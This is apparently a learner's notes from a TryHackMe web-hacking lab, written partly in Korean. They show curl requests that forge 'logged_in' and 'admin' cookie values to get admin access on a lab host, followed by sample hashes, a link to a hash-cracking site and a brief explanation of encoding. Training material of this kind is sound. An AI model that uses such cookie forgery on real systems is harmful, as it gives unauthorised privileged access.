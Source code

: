 # Cookie TamperingCookie


## 쿠키 이름이 Plain Text일 때 

### 실습
```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```
시도 1 
```
user@tryhackme$ curl http://10.10.3.25/cookie-test
```
```
Not Logged In
```
시도 2
```
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.3.25/cookie-test
```
```
Logged In As A User
```
시도 3 
```
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.3.25/cookie-test
```
```
Logged In As An Admin
```
---

## Hashing

irreversible representation of the original text

[Free Password Hash Cracker](https://crackstation.net/)

1을 변환하면  
md5 :   
c4ca4238a0b923820dcc509a6f75849b  

sha-256 :  
6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b  

sha-512	: dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a  

sha1 :   
356a192b7913b04c54574d18c28d46e6395428ab

---

## Encoding

encoding is reversible

Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

base32, base64  

[BASE64 Decode and Encode](https://www.base64encode.org/)





---
---

### Course
[TryHackMe - Introduction to Web Hacking](https://tryhackme.com/module/intro-to-web-hacking)    

